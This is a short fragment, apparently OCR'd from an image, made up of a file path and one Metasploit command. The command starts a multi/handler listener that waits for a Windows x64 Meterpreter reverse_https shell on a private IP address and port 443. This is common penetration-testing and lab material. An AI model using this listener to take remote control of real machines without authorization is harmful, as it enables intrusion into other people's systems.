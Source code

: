 sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.49.75; set LPORT 443; exploit  "